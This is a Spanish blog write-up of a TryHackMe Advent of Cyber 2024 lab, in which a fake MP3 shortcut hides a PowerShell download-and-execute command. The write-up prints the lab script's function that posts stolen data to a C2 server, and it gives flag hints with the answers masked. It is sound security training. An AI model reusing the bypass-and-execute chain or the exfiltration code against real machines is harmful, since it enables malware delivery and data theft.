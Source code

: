 ```yaml
---
title: "Día 1 - Calendario de Adviento TryHackMe 2024"
description: "En esta publicación resolvemos el reto del día 1 en el Advent of Cyber 2024 organizado por TryHackMe."
image: "/images/blog/advent-of-cyber-2024/thumbnails/day1.png"
date: "2024-12-01"
author: "xhetic"
tag: ["TryHackMe", "Principiante", "OPSEC", "Advent of Cyber"]
category: "Writeups"
featured: true
---
```


# Calendario de Adviento TryHackMe 2024 - Día 1 🎄🔍

Bienvenidos al primer día del **Calendario de Adviento de Ciberseguridad 2024** de [TryHackMe](https://tryhackme.com/). Hoy nos enfrentamos a un reto que combina investigación digital y análisis de archivos sospechosos. ¿Listos para descubrir qué se oculta detrás del nombre "Glitch"? Vamos a resolverlo juntos. ¡Manos a la obra!

Room: [Advent of Cyber 2024](https://tryhackme.com/r/room/adventofcyber2024)

## 🕵️ Historia: Una amenaza oculta

**McSkidy** ha detectado una actividad sospechosa relacionada con una web que promete convertir vídeos de YouTube a MP3. Aunque parece inofensiva, hay señales de alerta que nos invitan a investigar más a fondo. Nuestra misión es descubrir qué hay detrás de esta fachada.

## 🎯 Objetivos de aprendizaje

1. Identificar archivos maliciosos vinculados a enlaces sospechosos.
2. Entender los principios de **OPSEC** y errores comunes.
3. Aprender a rastrear y atribuir identidades digitales.

---

## 🔗 Investigación del sitio web

Primero, accede al laboratorio desde tu **AttackBox**. Usa la IP asignada para abrir el sitio en el navegador. A simple vista, parece un sitio legítimo con funcionalidades prometedoras, pero no te dejes engañar.

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img1.png)

### 🚩 Riesgos comunes en sitios de conversión YouTube a MP3

- **Malvertising**: Publicidad maliciosa que explota vulnerabilidades.
- **Phishing**: Trampas para obtener información sensible.
- **Malware embebido**: Archivos contaminados con software malicioso.

Nosotros investigaremos más allá. Para ello, introduce un enlace de YouTube (por ejemplo, [este clásico](https://www.youtube.com/watch?v=dQw4w9WgXcQ)) y haz clic en "Convertir".

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img2.png)

---

## 🗂️ Analizando los archivos descargados

Extrae el contenido del archivo `download.zip`. Encontrarás dos archivos: `song.mp3` y `somg.mp3`. Algo no cuadra con este segundo archivo...

### 📋 Paso 1: Verificando los archivos

Abre la terminal y usa el comando `file` para analizar ambos:

```bash
file song.mp3
```

Y veremos esta respuesta

```bash
song.mp3: Audio file with ID3 version 2.3.0,
contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Este archivo parece normal. Ahora probemos con el segundo:

```bash
file somg.mp3
```

Y la respuesta obtenida es

```bash
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, 
ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

**🧐 Sorpresa**: ¡Es un archivo **.lnk** (acceso directo) disfrazado de MP3!


---

## 🔍 Inspección del archivo .lnk

Para investigar más a fondo, ejecuta `exiftool`:

```bash
exiftool somg.mp3
```

El resultado revela un comando **PowerShell** oculto que descarga y ejecuta un script malicioso (`IS.ps1`) desde un servidor remoto.

- **-ep Bypass -nop**: Evita restricciones de seguridad.
- **DownloadFile**: Utiliza este método para descargar el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)
- **iex**: Ejecuta el script tras descargarlo.


---

## 🕵️‍♂️ Rastreando al atacante

Si analizamos por encima el script **IS.ps1** contiene la firma: **"Created by the one and only M.M."**. Vamos a buscar esta cadena en **GitHub** para ver si encontramos pistas sobre el creador.

```bash
"Created by the one and only M.M."
```

Accede al [resultado de búsqueda en GitHub](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7). Analiza los proyectos relacionados para obtener información sobre el atacante.

---

## 🧩 Preguntas del Reto (Flags)

Para completar este primer desafío del calendario de adviento de TryHackMe, tendrás que responder las siguientes preguntas. A continuación, te explico cómo puedes encontrar cada respuesta sin dar directamente las soluciones.


#### 1️⃣ **¿Quién es el autor de la canción (`song.mp3`)?**

💡 **Pista**: Ejecuta `exiftool song.mp3` en tu terminal. La respuesta estará en el campo `Artist`.

```cmd
T**** R******
```


#### 2️⃣ **¿Cuál es la URL del servidor C2 al que el script malicioso envía la información robada?**

💡 **Pista**: La respuesta se consigue analizando la funcion `Send-InfoToC2Server` en el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1).

```bash
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "****://*********.***/****"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```


#### 3️⃣ **¿Quién es M.M?**

💡 **Pista**: Busca el [repositorio](https://github.com/JoshuaFerando/Mayor-Malware) coincidente con la firma **"Created by the one and only M.M."** en GitHub usando la barra de búsqueda.

```bash
🦹‍♂️ Hi, I’m M.M, also known as M**** M******. I run things in Wareville Town.
```


#### 4️⃣ **¿Cuántos commits tiene el repositorio donde se reportó el problema?**

💡 **Pista**: Una vez encuentrado el [repositorio del script donde la incidencia se produjo](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search) , dirígete a la pestaña **"Commits"**. Allí podrás ver el número exacto de commits realizados.

```bash
* Commits
```

---

## 📝 Conclusión

Este ejercicio nos ha permitido desentrañar cómo un simple archivo puede convertirse en una amenaza seria. Hemos practicado análisis de archivos, investigación OSINT y rastreo de identidades digitales. ¿Has descubierto quién es "Glitch"? ¡Comparte tus resultados en los comentarios!

---

**⚠️ Nota**: Recuerda que este laboratorio es educativo. No intentes ejecutar estos comandos en entornos reales sin las precauciones adecuadas.
